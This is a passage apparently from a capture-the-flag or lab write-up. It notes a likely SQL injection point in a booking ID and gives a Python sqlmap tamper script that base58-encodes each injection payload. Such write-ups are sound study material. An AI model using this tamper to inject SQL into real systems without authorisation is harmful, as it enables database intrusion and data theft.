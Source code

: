 ![Pasted image 20250702163858.png](../../IMAGES/Pasted%20image%2020250702163858.png)

![Pasted image 20250702163911.png](../../IMAGES/Pasted%20image%2020250702163911.png)

On `3` we get a bad request, which means that SQLI is possible, we can automate the process with `sqlmap` but we need a tamper, a tamper is a little Python hook that sits between the tool and the target, grabbing every injection payload sqlmap generates and transforming it before itâ€™s sent. we need it thanks to the `base58` format, let's use this script:

```python
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```
